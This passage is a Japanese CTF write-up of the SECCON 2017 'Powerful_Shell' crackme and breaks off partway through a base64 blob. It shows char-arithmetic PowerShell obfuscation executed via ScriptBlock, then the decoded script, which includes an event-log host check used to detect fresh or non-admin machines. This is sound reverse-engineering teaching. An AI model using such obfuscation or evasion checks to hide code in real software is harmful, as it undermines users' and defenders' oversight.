


チーム Bluemermaid で 12 月 9 日から 12 月 10 日にかけて開催された [SECCON 2017 Online CTF](https://score-quals.seccon.jp) に参加しました。最終的にチームで 5800 点を獲得し、順位は得点 1028 チーム中 3 位でした。うち、私は 3 問のフラグを通して 1200 点を入れました。

以下、解いた問題の write-up です。

## [Binary 300] Powerful_Shell

> Powerful_Shell
> Crack me.

`powerful_shell.ps1-1fb3af91eafdbebf3b3efa3b84fcc10cfca21ab53db15c98797b500c739b0024` という PowerShell スクリプトが与えられました。

試しに実行してみると、以下のように SECCON のロゴが表示された後、管理者権限がないと怒られてしまいました。



`powerful_shell.ps1` の内容を読んでいきましょう。

```powershell
$ECCON="";
$ECCON+=[char](3783/291);
$ECCON+=[char](6690/669);
$ECCON+=[char](776-740);
$ECCON+=[char](381-312);
...
$ECCON+=[char](803-793);
$ECCON+=[char](10426/802);
Write-Progress -Activity "Extracting Script" -status "20040" -percentComplete 99;
$ECCON+=[char](520-510);
Write-Progress -Completed -Activity "Extracting Script";.([ScriptBlock]::Create($ECCON))
```

`$ECCON` にひたすら文字を結合したあと、`[ScriptBlock]::Create` に渡してスクリプトを実行しています。何が実行されているか最終行に `Write-Output $ECCON` を追加してみると、以下のように展開ができました。

```powershell
$ErrorActionPreference = "ContinueSilently"
[console]::BackgroundColor = "black";[console]::ForegroundColor = "white";cls;Set-Alias -Name x -Value Write-Host;$host.UI.RawUI.BufferSize = New-Object System.Management.Automation.Host.Size 95,25;$host.UI.RawUI.WindowSize = New-Object System.Management.Automation.Host.Size 95,25;$host.UI.RawUI.BufferSize = New-Object System.Management.Automation.Host.Size 95,25;$host.UI.RawUI.WindowSize = New-Object System.Management.Automation.Host.Size 95,25;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x;x '  ' -b 15 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x;x '  ' -b 15 -n;x '  ' -b 12 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 12 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x;x '  ' -b 15 -n;x '  ' -b 12 -n;x '  ' -b 15 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x;x '  ' -b 15 -n;x '  ' -b 12 -n;x '  ' -b 15 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x;x '  ' -b 15 -n;x '  ' -b 12 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 12 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x;x '  ' -b 15 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 15 -n;x '  ' -b 12 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x;x '  ' -b 15 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 15 -n;x '  ' -b 12 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x;x '  ' -b 15 -n;x '  ' -b 12 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 12 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x;x '  ' -b 15 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 12 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 0 -n;x '  ' -b 15 -n;x;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x '  ' -b 15 -n;x;x;

<# Host Check #>
Write-Host -b 00 -f 15 Checking Host... Please wait... -n
Try{
	If ((Get-EventLog -LogName Security | Where EventID -Eq 4624).Length -Lt 1000) {
		Write-Host "This host is too fresh!"
		Exit
	}
}Catch{
	Write-Host "Failed: No admin rights!"
	Exit
}
Write-Host "Check passed"

$keytone=@{'a'=261.63}
$pk='a'
ForEach($k in ('w','s','e','d','f','t','g','y','h','u','j','k')){
	$keytone+=@{$k=$keytone[$pk]*[math]::pow(2,1/12)};$pk=$k	
}
Write-Host -b 00 -f 15 "Play the secret melody."

Write-Host -b 15 -f 00 -n '   '
Write-Host -b 00 -f 15 -n '   '
Write-Host -b 15 -f 00 -n '  '
Write-Host -b 00 -f 15 -n '   '
Write-Host -b 15 -f 00 -n '   |   '
Write-Host -b 00 -f 15 -n '   '
Write-Host -b 15 -f 00 -n '  '
Write-Host -b 00 -f 15 -n '   '
Write-Host -b 15 -f 00 -n '  '
Write-Host -b 00 -f 15 -n '   '
Write-Host -b 15 -f 00 '   |    ' 
Write-Host -b 15 -f 00 -n '   '
Write-Host -b 00 -f 15 -n '   '
Write-Host -b 15 -f 00 -n '  '
Write-Host -b 00 -f 15 -n '   '
Write-Host -b 15 -f 00 -n '   |   '
Write-Host -b 00 -f 15 -n '   '
Write-Host -b 15 -f 00 -n '  '
Write-Host -b 00 -f 15 -n '   '
Write-Host -b 15 -f 00 -n '  '
Write-Host -b 00 -f 15 -n '   '
Write-Host -b 15 -f 00 '   |    ' 
Write-Host -b 15 -f 00 -n '   '
Write-Host -b 00 -f 15 -n ' w '
Write-Host -b 15 -f 00 -n '  '
Write-Host -b 00 -f 15 -n ' e '
Write-Host -b 15 -f 00 -n '   |   '
Write-Host -b 00 -f 15 -n ' t '
Write-Host -b 15 -f 00 -n '  '
Write-Host -b 00 -f 15 -n ' y '
Write-Host -b 15 -f 00 -n '  '
Write-Host -b 00 -f 15 -n ' u '
Write-Host -b 15 -f 00 '   |    ' 
Write-Host -b 15 -f 00 -n '    |'
Write-Host -b 15 -f 00 -n '    |'
Write-Host -b 15 -f 00 -n '    |'
Write-Host -b 15 -f 00 -n '    |'
Write-Host -b 15 -f 00 -n '    |'
Write-Host -b 15 -f 00 -n '    |'
Write-Host -b 15 -f 00 -n '    |'
Write-Host -b 15 -f 00  '    '
Write-Host -b 15 -f 00 -n '  a |'
Write-Host -b 15 -f 00 -n '  s |'
Write-Host -b 15 -f 00 -n '  d |'
Write-Host -b 15 -f 00 -n '  f |'
Write-Host -b 15 -f 00 -n '  g |'
Write-Host -b 15 -f 00 -n '  h |'
Write-Host -b 15 -f 00 -n '  j |'
Write-Host -b 15 -f 00  '  k '
Write-Host -b 15 -f 00 -n '    |'
Write-Host -b 15 -f 00 -n '    |'
Write-Host -b 15 -f 00 -n '    |'
Write-Host -b 15 -f 00 -n '    |'
Write-Host -b 15 -f 00 -n '    |'
Write-Host -b 15 -f 00 -n '    |'
Write-Host -b 15 -f 00 -n '    |'
Write-Host -b 15 -f 00  '    '
Write-Host
$stage1=@();$f="";
While($stage1.length -lt 14){
	$key=(Get-Host).ui.RawUI.ReadKey("NoEcho,IncludeKeyDown")
	$k=[String]$key.Character
	$f+=$k;
	If($keytone.Contains($k)){
		$stage1+=[math]::floor($keytone[$k])
		[console]::beep($keytone[$k],500)
	}
}
$secret=@(440,440,493,440,440,493,440,493,523,493,440,493,440,349)
If($secret.length -eq $stage1.length){
	For ($i=1; $i -le $secret.length; $i++) {
		If($secret[$i] -ne $stage1[$i]){
			Exit
		}
	}
	x "Correct. Move to the next stage."
}
$text=@"
YkwRUxVXQ05DQ1NOE1sVVU4TUxdTThBBFVdDTUwTURVTThMqFldDQUwdUxVRTBNEFVdAQUwRUxtT
TBEzFVdDQU8RUxdTbEwTNxVVQUNOEFEVUUwdQBVXQ0NOE1EWUUwRQRtVQ0FME1EVUU8RThdVTUNM
